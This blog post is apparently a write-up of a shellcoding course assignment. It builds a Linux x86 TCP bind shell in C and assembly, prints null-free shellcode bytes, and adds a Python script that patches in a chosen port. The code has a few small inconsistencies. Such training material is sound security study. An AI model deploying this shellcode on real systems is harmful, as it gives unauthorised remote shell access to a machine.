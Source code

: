 ```yaml
---
layout: post
title:  "SLAE x86 Exam - Assignment 1"
categories: certs slae 
---
```



Hello everyone.

#### A short review
Starting the new year, I decided to take the SLAE x86 course from Pentester Academy, after reading a lot of other reviews about the high quality of the contents and also, as part of my _OSCE_ prep.
Prerequisites for the course are only a basic knowledge in Linux/*nix, while also a basic understanding of programming, C and Python specifically, won't hurt as well, but no Assembly prior knowledge is needed (I did not even know anything about it before the course), as Vivek, the instructor  which is also an infosec ninja, will teach you smoothly from A to Z. 
The course consists in 36 videos, length average is ~15 minutes for each video.    You can take a look at the syllabus [here](http://pentesteracademy.com/course.php?id=3).
The exam consists in 7 assignments , no restrictions on the time/tools being used. 


## Assignment #1 - TCP bind shell
_Student ID: **PA-7854**_

The assignment indications are as follows:
* _Create a bind shell TCP shellcode, where port should be easily configurable_

This first one seems to be easy, since it was taught in the course in some manner.

In summary, these are the steps  we will take in order to achieve the bind shell:
1. Writing a bind shell in C 
2. Analyzing code
3. Replicating in Assembly
4. Port wrapper


The code is available at [my github repo](https://github.com/0xKiewicz/SLAE)

#### 1. Writing a bind shell in C 

bind_shell.c
```c
int resultfd, sockfd;
int port = 12345;
struct sockaddr_in bind_address;
 sockfd = socket(AF_INET, SOCK_STREAM, 0);
        int slength = 1;
        setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &slength, sizeof(one));
// set struct values
 bind_address.sin_family = AF_INET; // = 2
 bind_address.sin_port = htons(port); // port = 1234
 bind_address.sin_addr.s_addr = INADDR_ANY; // NULLL (no IP)

// syscall bind = 361
 bind(sockfd, (struct sockaddr *) &bind_address, sizeof(bind_address));

// syscall listen = 363
 listen(sockfd, 0);

// syscall socketcall (sys_accept 5)
 resultfd = accept(sockfd, NULL, NULL);

// syscall dup2 = 63
 dup2(resultfd, 2);
 dup2(resultfd, 1);
 dup2(resultfd, 0);

// syscall execve = 11
 execve("/bin/sh", NULL, NULL);
```

We compile and run it, just to verify it's working and to ease the next step:

```bash
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./bind_shell
^C
```

Now it's time to analyze syscalls.

#### 2. Analyzing code
As we can see, there are a couple of syscalls that are being executed in order to get the bind shell working (We could've used `strace` to see the syscalls too).

We need to find the syscall numbers, for that, we can take a look at the `unistd_32.h` header file, located at `/usr/include/i386-linux-gnu/asm/unistd_32.h` on my Debian x86 machine. Also, with the help of the `man` command we can see the accepted function parameters type and values, as well as the return code (if any) as follows: `man 2 socket`

All in all, these are the syscalls being executed:

* socket
* setsockopt (which is part of the socket library)
* bind
* listen
* accept
* dup2
* execve


#### 3. Replicating in Assembly
After getting the whole information, we can start building our bind shell in Assembly. This is a snippet of the final result:
```nasm
		; First we zero out the registers
		xor ebx, ebx
		xor ecx, ecx
		xor esi, esi
		mul ebx

		; Next, we build the socket fd with its corresponding syscall
		; socketcall = 102, socketcall type = 1 (sys_socket)
		; IPv4 and TCP (0)
		; sockfd = socket(AF_INET, SOCK_STREAM, 0);
		
		mov al, 0x66 				; socketcall syscall = 102 (decimal)
		mov bl, 0x1  	 				; sys_socket (socketcall)
		push ecx    	    				; TCP
		push 0x1						; SOCK_STREAM
		push 0x2						; AF_INET
		
		mov ecx, esp					; address (pointer) of the array
		int 0x80							; interrupt vector (syscall)
```		

After assembling and linking it, we get the shellcode:
```bash
$ for i in $(objdump -d -M intel bind_shell | grep "^ " | cut -f2); do echo -ne '\\x'$i; done
\x31\xdb\x31\xc9\x31\xf6\xf7\xe3\xb0\x66\xb3\x01\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc2\xb0\x66\xb3\x0e\x6a\x04\x54\x6a\x02\x6a\x01\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x02\x31\xc9\x66\x51\x66\x68\x30\x39\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x56\x52\xcd\x80\xb0\x66\xb3\x05\x56\x56\x52\x89\xe1\xcd\x80\x89\xc2\xb0\x3f\x89\xd3\x89\xf1\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80
```

It does not contain NULL bytes, great!

#### 4. Port wrapper
We need to write a script so that a user can easily choose the port number as desired. I've chosen Python as the programming language to work with, since it's easier (or i guess so). Here is a snippet including the shellcode generated from previous file:

```python
import os


if len(sys.argv) != 2:
    print("Usage: " + sys.argv[0] + " [PORT]")
    print("[!] Remember: Ports under 1024 should be run under root")
    exit(1)

port = int(sys.argv[1])

if port < 1024 and os.geteuid != 0:
    print("[E] To bind a port number < 1024 you need to be root")
    exit(2)

# Remove 0x char suffix
port = hex(port).strip('0x')


shellcode = ("\\x31\\xdb\\x31\\xc9\\x31\\xf6\\xf7\\xe3\\xb0\\x66\\xb3\\x01\\x51\\x6a\\x01\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x89\\xc2\\xb0\\x66\\xb3\\x0e\\x6a\\x04\\x54\\x6a\\x02\\x6a\\x01\\x52\\x89\\xe1\\xcd\\x80\\xb0\\x66\\xb3\\x02\\x31\\xc9\\x66\\x51\\x66\\x68\\x30\\x39\\x66\\x6a\\x02\\x89\\xe1\\x6a\\x10\\x51\\x52\\x89\\xe1\\xcd\\x80\\xb0\\x66\\xb3\\x04\\x56\\x52\\xcd\\x80\\xb0\\x66\\xb3\\x05\\x56\\x56\\x52\\x89\\xe1\\xcd\\x80\\x89\\xc2\\xb0\\x3f\\x89\\xd3\\x89\\xf1\\xcd\\x80\\xb0\\x3f\\xb1\\x01\\xcd\\x80\\xb0\\x3f\\xb1\\x02\\xcd\\x80\\xb0\\x0b\\x56\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xf1\\x89\\xf2\\xcd\\x80\\x31\\xc0\\xb0\\x01\\x31\\xdb\\xcd\\x80") 
# Get offset
offset = shellcode.index("\\x30\\x39")
splitted = list(shellcode)

splitted[offset:offset+8] = '\\x' + str(port[2:4]) + '\\x' + str(port[0:2]) 

```

Now just reminds to copy the resulting shellcode, compile the file (with no stack protector) and run it to verify.

Enough for now.

